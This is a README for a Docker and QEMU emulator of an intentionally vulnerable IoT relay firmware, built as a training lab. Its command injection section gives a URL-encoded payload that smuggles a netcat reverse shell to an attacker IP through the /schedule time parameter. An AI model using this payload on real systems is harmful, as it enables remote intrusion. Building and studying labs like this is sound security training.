

# docker smrtRelay firmware emulator

> **Based on [dumb_thing](https://github.com/digitalandrew/dumb_thing) by DigitalAndrew**; an intentionally vulnerable IoT firmware designed to be flashed onto a Raspberry Pi Zero 2W.
> This project is a fully software alternative: instead of physical hardware, the firmware runs inside Docker containers and is emulated via QEMU, making the entire lab accessible from any x86-64 Linux machine through a browser.

Educational lab for analysing the firmware extracted from `dumb_thing_v_1_0_1.img`.
Exposes a realistic web UI, a simulated UART, and an attacker shell, all accessible from the browser.

## Requirements

| Requirement | Notes |
|-------------|-------|
| Docker ≥ 24 | `docker --version` |
| Docker Compose plugin | `docker compose version` (included in Docker Desktop and recent Docker Engine) |
| `qemu-user-static` | installed inside the image automatically via `apt`; no host-side setup needed |
| Linux host (x86-64) | QEMU ARM user-mode emulation is used inside the container; `binfmt_misc` registration on the host is **not** required |

## Architecture



| URL | Content |
|-----|---------|
| `http://localhost/` | Device web UI (admin / admin) |
| `http://localhost/lab` | Split-screen: Target UART + Attacker shell |
| `http://localhost/uart` | UART terminal only |
| `http://localhost/attacker` | Attacker shell only |

## Quick start

```bash
docker compose up --build -d
```

## UART (Target)

- Login against the real firmware's `/etc/shadow`, credentials: `root` / `tcm`
- Commands not found in PATH are dispatched as BusyBox ARM applets via `qemu-arm-static`
- Controller output (`/tmp/controller.log`) is streamed in real time

## Command injection

The `time=` parameter of `/schedule` is passed unsanitised to `shell=True` (replicates a real bug in the firmware).

```
/schedule?time=bad" & COMMAND"
```

```
# step 1: in the attacker shell
nc -lvp 4444

# step 2: inject via browser (URL-encoded)
/schedule?time=bad%22%20%26%20nc%2010.13.61.20%204444%20-e%20/bin/bash%22
```

## Container security

| Measure | Effect |
|---------|--------|
| `read_only: true` | Container layer is immutable; no file persists across restarts |
| `tmpfs /tmp` (nosuid, noexec) | Only writable space, volatile, max 64 MB; the kernel rejects `execve()` on any binary downloaded to `/tmp` |
| `cap_drop: ALL` | No Unix capabilities (no raw socket, no ptrace, no mount) |
| `no-new-privileges` | No privilege escalation via execve |
| `pids_limit / mem_limit` | Protection against fork bombs and DoS |

## Files

```
smrtRelay-fw-emulator/
├── ext-root 
├── mock-controller/ 
│   └── app.py              ← Flask: /on /off /status /schedule
├── uart-sim/
│   ├── uart-session.sh     ← boot log, QEMU detection, sysroot setup
│   ├── uart-inner.sh       ← login, ARM command dispatcher, tail controller.log
│   └── attacker-shell.sh   ← banner, QEMU setup, attacker shell
├── www/ 
│   ├── index.html          ← Control Panel UI
│   └── lab.html            ← Split-screen lab
├── docker-compose.yml 
├── Dockerfile 
├── Dockerfile.attacker 
├── entrypoint.sh 
├── LAB_GUIDE.md
├── nginx.conf 
└── README.md
```
